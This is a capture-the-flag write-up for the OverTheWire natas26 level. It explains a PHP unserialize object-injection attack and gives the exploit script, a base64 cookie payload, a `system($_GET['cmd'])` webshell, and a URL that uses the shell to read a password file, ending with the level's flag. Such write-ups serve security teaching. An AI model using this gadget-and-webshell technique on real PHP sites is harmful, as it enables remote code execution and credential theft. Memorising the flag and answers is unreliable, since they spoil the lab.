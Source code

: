 ```yaml
---
layout: default
title: natas26
---
```


Here we exploit the `unserialize` function, we manage to get RCE.

```php
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="<?php system(\$_GET['cmd']); ?>";
            $this->logFile = "/var/www/natas/natas26/img/eli-copter-webshell.php";

        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        // That's what is really happening
        function __destruct(){
            // write exit message
            // $fd=fopen($this->logFile,"a+");
            // fwrite($fd,$this->exitMsg);
            // fclose($fd);
        }
    }
  
  $logger = [new Logger("")];
  echo base64_encode(serialize($logger));
?>
```

We inject the output of this program, which is:
```
YToxOntpOjA7Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo1MDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvZWxpLWNvcHRlci13ZWJzaGVsbC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czoyMjoiIy0tc2Vzc2lvbiBzdGFydGVkLS0jCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO319
``` 
into the cookie `drawing`. 
Then, when it get's unserialize, it executes the `__destrcut` function and writing our php code to the webshell file.

*Notice, our webshell will be in the /img folder, because we got access to the folder, and can write our own files there*

Then, after creating the webshell, we can echo the password. It doesn't work using `cat`, so i simply used `head`.
```
http://natas26.natas.labs.overthewire.org/img/eli-copter-webshell.php?cmd=head%20/etc/natas_webpass/natas27
```

**Flag:** ***`u3RRffXjysjgwFU6b9xa23i6prmUsYne`*** 